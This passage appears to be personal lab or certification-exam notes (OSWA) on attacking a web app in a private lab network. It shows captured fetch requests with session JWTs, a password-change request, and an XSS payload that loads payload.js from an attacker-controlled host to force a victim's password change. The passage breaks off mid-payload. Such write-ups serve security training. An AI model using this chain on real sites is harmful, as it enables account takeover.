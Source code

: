 ```bash
    "accept-language": "en-US,en;q=0.9",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site",
    "sec-fetch-storage-access": "active",
    "cookie": "sessionToken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsb3Bob3N0cml4IiwiaXNBZG1pbiI6ImZhbHNlIiwiZXhwIjoxNzU4MzE1Nzc5LCJ1c2VySWQiOiIyMGY4YjExNy1kMzU0LTQ4MGYtODI3MC1kZWFmMGUwYmI2YmYiLCJ1c2VybmFtZSI6InRlc3QifQ.YWQO9qq3qSkRog3qMtUyzjJ2ZncdltI9nvRCj1tGNpg",
    "Referer": "http://192.168.62.62/"
  },
  "body": null,
  "method": "GET"
});
```

found the password function that allows me to change my password
```bash
fetch("https://192.168.62.62:8443/api/me/password", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "content-type": "application/x-www-form-urlencoded;charset=UTF-8",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site",
    "sec-fetch-storage-access": "active",
    "cookie": "sessionToken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsb3Bob3N0cml4IiwiaXNBZG1pbiI6ImZhbHNlIiwiZXhwIjoxNzU4MzE2MjgzLCJ1c2VySWQiOiIyMGY4YjExNy1kMzU0LTQ4MGYtODI3MC1kZWFmMGUwYmI2YmYiLCJ1c2VybmFtZSI6InRlc3QifQ._x0_phIb0EbjMgCsXVZO4QdBKDLethNEcINkCxEKqS4",
    "Referer": "http://192.168.62.62/"
  },
  "body": "password=test3",
  "method": "POST"
});
```
cleaning it up and only leaving the `content-type` header - getting rid of the cookie header because it might auto fill, going to attempt to use this fetch to change my own password to `testest`
```bash
fetch("https://192.168.62.62:8443/api/me/password", {
  "headers": {
    "content-type": "application/x-www-form-urlencoded;charset=UTF-8",
  },
  "body": "password=testtest",
  "method": "POST"
});
```
payload to use 
```bash
<script src="http://192.168.49.62:8000/payload.js"></script>
```
got an unauth error
![[ss-20250919-OSWA-Exam-ShareNotez-pic14.png]]
payload2.js
```bash
fetch("https://192.168.62.62:8443/api/me/password", {
  "headers": {
```